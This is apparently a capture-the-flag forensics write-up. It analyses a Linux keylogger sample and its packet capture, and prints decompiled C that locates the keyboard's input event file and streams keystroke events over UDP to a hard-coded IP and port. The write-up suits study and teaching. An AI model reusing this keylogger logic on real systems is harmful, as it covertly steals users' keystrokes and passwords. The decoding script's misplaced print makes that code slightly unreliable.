

# Breach

**`Author:`** [Cynex](https://github.com/cynex-k)

## Description

  > hurry up !! We get hacked, our forensics team was able to capture network traffic and the malware. 
  > But they didn't know what happened. 
  > Use your investigation skills to figure it out.    

## Attachment
[Breach.zip](./Breach.zip)

## Solution
When we unzip the file we get two files 
```
Breach:        ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2a7a4805cbfd06c7094fbb45ed610b80eba466d5, for GNU/Linux 3.2.0, not stripped

Breach.pcapng: pcapng capture file - version 1.0

```

We have an executable binary and pcap file 

When we open the pcap file with the wireshark 

We see a lot of udp packets with 1 byte data each 
just a quick looking to the data shows us that it is not kind of encoding (ASCII) we need to understand what are these values
Going to the ELF, we fire up ghidra and decompile it 
```c
local_a8 = 0x6f72702f20746163;
local_a0 = 0x6e692f7375622f63;
local_98 = 0x697665642f747570;
local_90 = 0x7267207c20736563;
local_88 = 0x6f6279656b207065;
local_80 = 0x3520412d20647261;
local_78 = 0x2070657267207c20;
local_70 = 0x452d206f2d;
uStack_6b = 0x272020;
uStack_68 = 0x746e657665;
local_63 = 0x272b5d392d305b;
local_18 = execute_command(&local_a8);
local_c8 = 0x706e692f7665642f;
local_c0 = 0x2f7475;
uStack_b9 = 0;
strcat(&local_c8,local_18);
sVar1 = strcspn(&local_c8,"\n");
local_1c = sVar1;
*(&local_c8 + local_1c) = 0;
local_20 = open(&local_c8,0);
if (local_20 < 0) {
	perror("Error opening file");
	exit(1);
}
free(local_18);
local_24 = socket(2,2,0);
if (-1 < local_24) {
	local_58.sa_family = 2;
	local_58.sa_data._2_4_ = inet_addr("192.168.136.47");
	local_58.sa_data._0_2_ = htons(8000);
	do {
		sVar2 = read(local_20,local_48,0x18);
		if (sVar2 != 0x18) {
			perror("Error reading from file");
			exit(1);
		}
		for (i = 0x10; i < 0x16; i = i + 1) {
			local_c9 = local_48[i];
			sVar2 = sendto(local_24,&local_c9,1,0,&local_58,0x10);
			if (sVar2 < 0) {
				perror("Error sending data");
				exit(1);
			}
		}
	} while( true );
}
perror("Error creating socket");
exit(1);
```

We start to understand the binary 
First we see some numbers are assigned to variables we interest to this one
`local_18 = execute_command(&local_a8);`  note that the function execute_command takes an address as argument so the string that take is from `locak_a8` to `local_70` (it is an array ) if we try to decode that string we will find 
`cat /proc/bus/input/devices | grep keyboard -A 5 | grep -o -E  'event[0-9]+'`

a Quick search about this file  `/proc/bus/input/devices` I find this :

>This file will provide the needed information for all devices except USB multimedia/office keyboards.

So we read this file and pipeline it with `grep` to search about `keyboard`  the option `-A 5` stands for `print 5 line after the line contains keyboard` and another pipeline to look about `event`  the option `-o` is for `only word match` and the option `-E` is to search with the regex format 
if we test it locally I get just one word `event0` (maybe it is different in your linux machine)
so our variable `local_18` get the from the `execute command` function the event number of the keyboard 
After that we have this part 
```c
local_c8 = 0x706e692f7665642f;
local_c0 = 0x2f7475;
uStack_b9 = 0;
strcat(&local_c8,local_18);
sVar1 = strcspn(&local_c8,"\n");
local_1c = sVar1;
*(&local_c8 + local_1c) = 0;
```
`local_c8` has this string `/dev/input/` and it will be concatenate with `local_18` (the event number) and we remove the new line so `local_c8` become like this `/dev/input/event0`

we should get some docs about this type of file I found this [blog](https://thehackerdiary.wordpress.com/2017/04/21/exploring-devinput-1/) that I highly recommand to read 
from the blog we concluded that it is file that reads input for any input device in our case the keyboard So the malware is keylogger
From the blog:
>The format for the input stream is given in the [Linux documentation](https://www.kernel.org/doc/Documentation/input/input.txt) as follows:
```
struct input_event {
	struct timeval time;
	unsigned short type;
	unsigned short code;
	unsigned int value;
};
```
struct timeval – 16
unsigned short – 2 ( x 2 )
unsigned int – 4
**Total size** = 24 bytes

We back to the binary after reading the file and setting the ip address and the port we have this 
```c
sVar2 = read(local_20,local_48,24);
for (i = 16; i < 22; i = i + 1) {
			local_c9 = local_48[i];
			sVar2 = sendto(local_24,&local_c9,1,0,&local_58,16);
			if (sVar2 < 0) {
				perror("Error sending data");
				exit(1);
			}
		}
```
we see that it reads 24 byte (means an event) then send just 17th-22th byte 
```
|     16 Byte     |     2 byte     |     2 byte     |     4 byte     |
|      time       |      type      |      code      |      value     |
```
so we are sending the `type` and `code` and `value`  but what are these ? 
The [Linux Documentation](https://www.kernel.org/doc/Documentation/input/input.txt) will answer this question 
```
'time' is the timestamp, it returns the time at which the event happened.

'type' is for example EV_REL for relative moment, EV_KEY for a keypress or
release. More types are defined in include/uapi/linux/input-event-codes.h.

'code' is event code, for example REL_X or KEY_BACKSPACE, again a complete
list is in include/uapi/linux/input-event-codes.h.

'value' is the value the event carries. Either a relative change for
EV_REL, absolute new value for EV_ABS (joysticks ...), or 0 for EV_KEY for
release, 1 for keypress and 2 for autorepeat.
```

we can test this by reading the file `/dev/input/event0` with this command `evtest` 
`sudo apt install evtest` for debian users and should run with privileged user (root) 

Output of the command:
```
Event: time 1677793373.445003, type 4 (EV_MSC), code 4 (MSC_SCAN), value 1c
Event: time 1677793373.445003, type 1 (EV_KEY), code 28 (KEY_ENTER), value 0
Event: time 1677793373.445003, -------------- SYN_REPORT ------------
Event: time 1677793379.588457, type 4 (EV_MSC), code 4 (MSC_SCAN), value 2e
Event: time 1677793379.588457, type 1 (EV_KEY), code 46 (KEY_C), value 1
Event: time 1677793379.588457, -------------- SYN_REPORT ------------
Event: time 1677793379.682172, type 4 (EV_MSC), code 4 (MSC_SCAN), value 2e
Event: time 1677793379.682172, type 1 (EV_KEY), code 46 (KEY_C), value 0
Event: time 1677793379.682172, -------------- SYN_REPORT ------------
Event: time 1677793384.922527, type 4 (EV_MSC), code 4 (MSC_SCAN), value 1d
Event: time 1677793384.922527, type 1 (EV_KEY), code 29 (KEY_LEFTCTRL), value 1
Event: time 1677793384.922527, -------------- SYN_REPORT ------------
Event: time 1677793385.000758, type 4 (EV_MSC), code 4 (MSC_SCAN), value 2e
Event: time 1677793385.000758, type 1 (EV_KEY), code 46 (KEY_C), value 1
Event: time 1677793385.000758, -------------- SYN_REPORT ------------
```

We notice that every tap and release in the keyboard will save 6  events (3 event for tapping and the other 3 for releasing) since the malware sends the type and code and and value 
we need to filter the unnecessary events we must drop  all event with type 4 (EV_MSC) and type 0 (SYN_REPORT) and event with the value 0 (drop release key event) 
I have write a script to do this work after I dump the udp data from the pcap file using this command line 
```
tshark -r Breach.pcapng -Tfields -e data
```

and here is the script
I get the mapping value from the [input-event-codes.h](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/input-event-codes.h)
```python
filename = "data"
lines_per_chunk = 6
chunks = []
mapping = {
1 : 'ESC',
2 : '1',
3 : '2',
4 : '3',
5 : '4',
6 : '5',
7 : '6',
8 : '7',
9 : '8',
10 : '9',
11 : '0',
12 : 'MINUS',
13 : 'EQUAL',
14 : 'BACKSPACE',
15 : 'TAB',
16 : 'Q',
17 : 'W',
18 : 'E',
19 : 'R',
20 : 'T',
21 : 'Y',
22 : 'U',
23 : 'I',
24 : 'O',
25 : 'P',
26 : 'LEFTBRACE',
27 : 'RIGHTBRACE',
28 : 'ENTER',
29 : 'LEFTCTRL',
30 : 'A',
31 : 'S',
32 : 'D',
33 : 'F',
34 : 'G',
35 : 'H',
36 : 'J',
37 : 'K',
38 : 'L',
39 : 'SEMICOLON',
40 : 'APOSTROPHE',
41 : 'GRAVE',
42 : 'LEFTSHIFT',
43 : 'BACKSLASH',
44 : 'Z',
45 : 'X',
46 : 'C',
47 : 'V',
48 : 'B',
49 : 'N',
50 : 'M',
51 : 'COMMA',
52 : 'DOT',
53 : 'SLASH',
54 : 'RIGHTSHIFT',
55 : 'KPASTERISK',
56 : 'LEFTALT',
57 : ' ',
58 : 'CAPSLOCK'}

with open(filename, "r") as f:
	chunk = []
	for i, line in enumerate(f):
		chunk.append(line.strip())
		if (i+1) % lines_per_chunk == 0:
			chunks.append(chunk)
			chunk = []
	if chunk:
		chunks.append(chunk)
key_board = []

for i in range(len(chunks)):
	if chunks[i][0] != '00' and chunks[i][0] != '04' and chunks[i][4] != '00':
		key_board.append(chunks[i])
for i in key_board:
	key = i[2]
	if key:
		key = int(key,16)
print(mapping[key],end=" ")
```

output: 
```
F L A G ENTER CAPSLOCK ESC A CAPSLOCK L P H A CAPSLOCK ESC C T F CAPSLOCK RIGHTSHIFT LEFTBRACE I RIGHTSHIFT MINUS H O CAPSLOCK ESC P CAPSLOCK 3 RIGHTSHIFT MINUS CAPSLOCK ESC Y 0 U CAPSLOCK RIGHTSHIFT MINUS L 3 A R N BACKSPACE CAPSLOCK ESC N CAPSLOCK 3 D RIGHTSHIFT MINUS CAPSLOCK ESC H CAPSLOCK 0 W RIGHTSHIFT MINUS L I CAPSLOCK ESC N CAPSLOCK U CAPSLOCK ESC X CAPSLOCK RIGHTSHIFT MINUS H CAPSLOCK ESC CAPSLOCK 4 CAPSLOCK ESC N CAPSLOCK D CAPSLOCK ESC L E CAPSLOCK RIGHTSHIFT MINUS CAPSLOCK ESC I CAPSLOCK N P CAPSLOCK ESC U CAPSLOCK T RIGHTSHIFT 4 RIGHTSHIFT RIGHTBRACE ENTER LEFTALT TAB LEFTCTRL C
```
we form the flag with attention to the CAPSLOCK to get it right

## Flag
`AlphaCTF{i_hoP3_Y0U_l3arN3d_H0w_liNuX_h4NdLE_InpUt$}`
